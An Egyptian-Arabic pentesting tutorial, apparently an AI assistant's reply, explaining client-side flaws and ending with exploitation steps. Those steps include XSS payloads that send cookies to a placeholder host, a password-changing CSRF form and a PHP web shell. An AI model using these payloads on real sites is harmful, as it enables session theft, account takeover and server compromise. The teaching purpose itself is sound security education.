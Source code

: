 تمام، هعملك شرح أعمق وأبسط زي ما طلبت، وهكسر كل حاجة لجزئيات صغيرة عشان تبقى سهلة وواضحة. بعد كل جزء هحط الخلاصة بالعامية المصرية، وفي الآخر هقدملك خطوات عملية للاستغلال كـ **Pentester**. هنمشي خطوة بخطوة، يلا نبدأ:

---

### **1. إيه يعني "التعامل مع البيانات على جانب العميل" (بعمق لـ Pentester)؟**
البيانات على جانب العميل هي أي حاجة بتتحرك أو بتتخزن عند المستخدم نفسه (يعني على الموبايل أو الكمبيوتر بتاعه). بمعنى أوضح:
- لما بتدخل موقع وتكتب اسمك وكلمة السر، الداتا دي بتتحرك من جهازك للسيرفر.
- الموقع بيبعتلك حاجات زي **الكوكيز** (حتة بيانات صغيرة بتثبت إنك أنت اللي داخل الموقع).
- أحياناً بيبعت كود جافا سكريبت عشان يخلّي الموقع يشتغل على جهازك (مثلاً يظهرلك رسالة أو يعبّي نموذج تلقائي).

كـ **Pentester**، الجزء ده مهم لأن أي حاجة بتحصل على جهاز المستخدم ممكن تكون نقطة ضعف. ليه؟ لأن المطورين بيسيبوا أحياناً البيانات دي مكشوفة أو الكود فيه ثغرات. يعني لو الكوكيز مش مشفرة، أو الجافا سكريبت فيها عيب، أو حتى الموقع بيثق في الإنبوت بتاعك من غير ما يفحصه، دي فرصة ذهبية ليك تستغلها.

مثال بسيط:
- لو الموقع بيخزن "Session ID" (رقم تعريف الجلسة) في الكوكيز ومش حاطط حماية، تقدر تسرقه وتدخل مكان المستخدم.

**الخلاصة بالعامية:**  
الداتا اللي بتروح وتيجي على جهاز المستخدم زي كنز مفتوح لو الموقع مش قافل الباب كويس، وأنت بتدور على الفتحة اللي تسرق منها.

---

### **2. ليه فيه مخاوف أمان (ونقاط الضعف اللي بتستغلها)؟**
المخاوف دي هي نفسها الثغرات اللي بتبص عليها كـ Pentester. هنفهمها بعمق:
- **البيانات مكشوفة:** الموقع أحياناً بيسيب حاجات زي الكوكيز أو التوكنات (رموز الأمان) من غير تشفير قوي، يعني لو عرفت تاخدها تقدر تستخدمها على طول.
- **الجافا سكريبت مليان ثغرات:** الكود اللي بيشتغل على جهاز المستخدم (زي جافا سكريبت) لو فيه خطأ، تقدر تحط كودك أنت وتخلّي جهاز المستخدم ينفذه. ده اسمه **XSS**.
- **التحقق على المستخدم ضعيف:** الموقع بيفترض إن اللي بيجي منك صح، فلو بعتله حاجة مضروبة (زي كود خبيث أو طلب مزور)، هيصدقك.
- **الكاش والملفات المحلية:** لو الموقع بيخزن حاجات حساسة في الكاش (ذاكرة المتصفح) أو Local Storage، تقدر تطلع عليها لو عرفت تدخل.

ليه الثغرات دي موجودة؟ لأن المطورين بيركزوا على إن الموقع يشتغل بسرعة وما بيهتموش بحماية كل حاجة. وكمان جهاز المستخدم نفسه مش دايماً محمي زي السيرفر، فده بيخلّيك كـ Pentester تقدر تلعب فيه.

مثال:
- لو لقيت كوكي فيها "admin=true" ومش مشفرة، تقدر تعدلها وتبقى أدمن في ثانية.

**الخلاصة بالعامية:**  
الموقع لو سايب حاجات مكشوفة أو بيثق فيك أوي، ده بيديك مفتاح البيت عشان تعمل اللي عايزه.

---

### **3. إزاي الثغرات دي بتشتغل (وممكن تستغلها إزاي)؟**
هنفهم الآليات بعمق وبساطة:
- **سرقة الكوكيز (Session Hijacking):** الكوكيز هي اللي بتحدد مين اللي داخل الموقع. لو مش محمية بـ "HttpOnly" (يعني الكود ميقدرش يقراها) أو "Secure" (يعني مش بتتبعت غير على HTTPS)، تقدر تسرقها بكود بسيط زي XSS.
- **XSS (Cross-Site Scripting):** لو الموقع بياخد حاجة منك (زي تعليق أو اسم) ويحطها في الصفحة من غير ما ينظفها، تقدر تحط كود جافا سكريبت يشتغل عند المستخدمين التانيين. مثلاً، يسرقلك كوكيزهم أو يعمل حاجة في جهازهم.
- **CSRF (Cross-Site Request Forgery):** لو الموقع مش بيستخدم توكن (كود أمان عشوائي) عشان يتأكد إن الطلب جاي من المستخدم الحقيقي، تقدر تخلّي المستخدم يعمل حاجة (زي تحويل فلوس) من غير ما يحس.
- **تلاعب في الإنبوت:** لو الموقع بياخد بيانات منك ومش بيفحصها كويس، تقدر تبعت كود خبيث يخرب حاجة أو يطلعلك داتا (زي SQL Injection بس على مستوى العميل).
- **استغلال الملفات:** لو الموقع بيسمحلك ترفع حاجة ومش بيتأكد إنها آمنة، تقدر ترفع كود يشتغل على السيرفر أو على جهاز المستخدم.

مثال عملي:
- لو حطيت `<script>alert(document.cookie)</script>` في حقل تعليق وظهرت الكوكيز، يبقى الموقع ضعيف وتقدر تاخد كل حاجة.

**الخلاصة بالعامية:**  
بتلاقي حتة مفتوحة، تحط كودك، تسرق اللي عايزه، أو تخلّي المستخدم يضغط على حاجة من غير ما يعرف، ولو لقيت مكان يرفع ملفات هتفضح اللعبة.

---

### **خطوات عملية للاستغلال كـ Pentester:**
1. **افحص الكوكيز وسرقها:**
   - افتح المتصفح، اضغط F12، وروح على "Application" > "Cookies".
   - لو لقيت كوكي زي "session_id" من غير "HttpOnly" أو "Secure"، استخدم XSS عشان تسرقها. جرب كود زي:
     ```html
     <script>window.location="http://your-site.com/steal?cookie="+document.cookie</script>
     ```
   - لو نجح، استخدم الكوكي دي في متصفحك عشان تدخل مكان المستخدم.

2. **اختبر XSS:**
   - دور على أي مكان بياخد إنبوت (حقل تعليق، بحث، اسم مستخدم).
   - حط كود بسيط زي `<script>alert('xss')</script>` وشوف لو ظهرت رسالة.
   - لو نجح، استخدم كود أقوى زي:
     ```html
     <script>fetch('http://your-site.com/steal?data='+document.cookie)</script>
     ```
     عشان تسرق الكوكيز أو أي داتا تانية.

3. **جرب CSRF:**
   - ابحث عن نموذج في الموقع (زي تغيير كلمة السر أو إرسال رسالة).
   - اعمل صفحة HTML بسيطة على جهازك زي:
     ```html
     <form action="http://target-site.com/change-password" method="POST">
       <input type="hidden" name="new_password" value="hacked123">
       <input type="submit" value="Click Me">
     </form>
     ```
   - لو النموذج اتقبل من غير توكن، يبقى فيه ثغرة CSRF وتقدر تزور طلبات.

4. **استغل رفع الملفات:**
   - لو الموقع بيسمح برفع صور أو ملفات، اعمل ملف PHP زي:
     ```php
     <?php echo system($_GET['cmd']); ?>
     ```
   - ارفعه، ولو اتقبل، افتح الرابط بتاعه وحط `?cmd=dir` (أو `whoami` لو لينكس) وشوف لو السيرفر رد.

5. **فحص الجافا سكريبت:**
   - افتح "Sources" في Developer Tools، نزل ملفات الـ JS.
   - دور على حاجات زي مفاتيح API، بيانات حساسة، أو أوامر مش مشفرة.
   - لو لقيت حاجة زي `api_key=12345`، جرب تستخدمها في طلبات خارجية.

6. **استخدم أدوات مساعدة:**
   - نزل **Burp Suite**، اعمل Proxy واعترض الطلبات بتاعة الموقع.
   - جرب تعدل الـ Parameters أو الكوكيز وشوف لو بيحصل حاجة (زي تغيير صلاحيات).
   - استخدم **XSS Hunter** أو **BeEF** عشان تختبر XSS بعمق أكتر.

---

### **نصيحة أخلاقية:**
كل ده لازم يكون في إطار قانوني وبإذن من صاحب الموقع، لأن الاستغلال من غير موافقة هيوديك في داهية.

لو عايز شرح أعمق لأي نقطة أو أداة، قوللي وأنا أفصلها لك!